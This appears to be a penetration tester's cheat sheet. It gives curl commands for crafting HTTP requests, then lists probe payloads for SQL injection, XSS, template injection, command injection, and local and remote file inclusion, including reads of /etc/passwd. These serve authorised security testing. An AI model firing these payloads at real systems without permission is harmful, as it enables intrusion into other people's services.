 # APIs and Fields

## Simulating Requests

#### GET

```
curl <url>
```

#### HEAD

```
curl -I <url>
```

#### GET - Params

```
curl <url>?field=value&field2=value2
```

#### GET - Follow Redirect

```
curl -L <url>
```

#### GET - Custom Headers

```
curl <url> -H "header1: value" -H "header2: value"
```

#### GET - Custom Cookies

```
curl -b "name1=value1; name2=value2" <url>
```

#### POST - Form Data

```
curl -X POST <url>
   -H "Content-Type: application/x-www-form-urlencoded" 
   -d "key1=value1&key2=value2" 
```

#### POST - JSON

```
curl -X POST <url>
    -H 'Content-Type: application/json'
    -d '{"field1":"value1","field2":"value2"}'
```

#### POST - Send File

```
curl -X POST <url> -d @<path to file>
```

#### POST - Base Auth

```
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>" 
```

## Testing parameters

#### SQL Injection

```
''""``) or 'a' = 1;

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

#### RCE

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 

whoami
$(whoami)
;whoami
||whoami
&&whoami
```

#### Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

